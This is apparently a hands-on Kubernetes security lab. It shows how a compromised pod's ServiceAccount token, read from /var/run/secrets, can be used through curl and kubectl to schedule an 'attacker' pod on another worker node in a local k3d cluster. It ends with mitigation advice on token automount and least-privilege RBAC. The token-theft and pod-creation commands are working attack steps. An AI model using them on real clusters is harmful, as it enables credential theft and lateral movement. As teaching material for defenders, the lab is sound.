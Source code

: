 # Lab 2 – Lateral Movement Between Worker Nodes

## Goal
Demonstrate how an attacker who compromises one pod can use its ServiceAccount token to schedule a pod on a different worker node.

---

## Lab Setup

We’ll create:
1. **Two worker nodes** in your k3d cluster (`k3d-lab2-agent-0` and `k3d-lab2-agent-1`).
2. A **namespace** (`lab2`).
3. A **vulnerable pod** on **Node 1** with:
   - Default ServiceAccount
   - Automounted token
   - No RBAC restrictions (can `create pods`)
4. The attacker will:
   - Extract the ServiceAccount token.
   - Use it to schedule a malicious pod (`attacker`) on **Node 2**.

---

## Step-by-Step Instructions

### 1. Create Namespace & Role
```bash
k3d cluster create lab2 \
  --agents 2 \
  --k3s-arg "--disable=traefik@server:0" \
  --k3s-arg "--tls-san=127.0.0.1@server:0" \
  --wait

kubectl get nodes -o wide

kubectl create namespace lab2
kubectl -n lab2 create role pod-creator --verb=create --resource=pods
kubectl -n lab2 create rolebinding pod-creator-bind   --role=pod-creator   --serviceaccount=lab2:default
```

### 2. Deploy Compromised Pod on Node 1
```yaml
# compromised-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: compromised
  namespace: lab2
spec:
  nodeName: k3d-lab2-agent-0
  containers:
  - name: shell
    image: alpine
    command: ["sleep", "infinity"]
```
```bash
kubectl apply -f compromised-pod.yaml
```

### 3. Inside the Compromised Pod: Extract Token
```bash
kubectl -n lab2 exec -it compromised -- sh
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
echo $TOKEN

CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### 4. Use Token to Deploy Pod on Node 2
Create the manifest with `nodeName` set to **Node 2**:
```bash
cat <<EOF > attacker.yaml
apiVersion: v1
kind: Pod
metadata:
  name: attacker
  namespace: lab2
spec:
  nodeName: k3d-lab2-agent-1
  containers:
  - name: pwn
    image: alpine
    command: ["sleep", "infinity"]
EOF
```

Then from inside the compromised pod:
```bash
curl --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/yaml" \
  -X POST \
  --data-binary @attacker.yaml \
  https://k3d-lab2-server-0:6443/api/v1/namespaces/lab2/pods


kubectl --server=https://k3d-lab2-server-0:6443   --token="$TOKEN"   apply -f attacker.yaml
```

---

## Expected Outcome
- The `attacker` pod appears **running on Node 2** even though the attacker never had direct access to that node.
- This demonstrates how **cluster-wide RBAC** plus default ServiceAccount tokens enable cross-node movement.

Exit the pod and confirm:
```bash
kubectl -n lab2 get pods -o wide
```

---

## Mitigation Tie-In
- Set `automountServiceAccountToken: false` in pod specs where tokens are not needed.
- Scope RBAC to **least privilege**.
- Avoid giving ServiceAccounts the ability to create pods unless absolutely necessary.

Exit the pod and confirm:
```bash
k3d cluster delete lab2
```
